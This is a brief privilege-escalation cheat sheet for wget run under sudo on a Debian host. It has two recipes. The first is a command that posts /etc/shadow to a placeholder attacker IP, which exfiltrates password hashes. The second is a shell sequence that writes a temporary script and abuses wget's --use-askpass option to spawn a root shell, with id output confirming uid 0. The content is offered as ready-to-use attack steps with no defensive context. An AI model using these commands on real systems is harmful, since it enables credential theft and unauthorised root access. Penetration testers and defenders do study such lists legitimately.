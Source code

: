 # Wget

- Send file to webserver

`user@debian:~$ sudo wget --post-file=/etc/shadow <attacker_IP>`

- Spawn a rooted shell

```
user@debian:~$ TF=$(mktemp)
user@debian:~$ chmod +x $TF
user@debian:~$ echo -e '#!/bin/bash\n/bin/bash 1>&0' > $TF
user@debian:~$ sudo wget --use-askpass=$TF 0

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```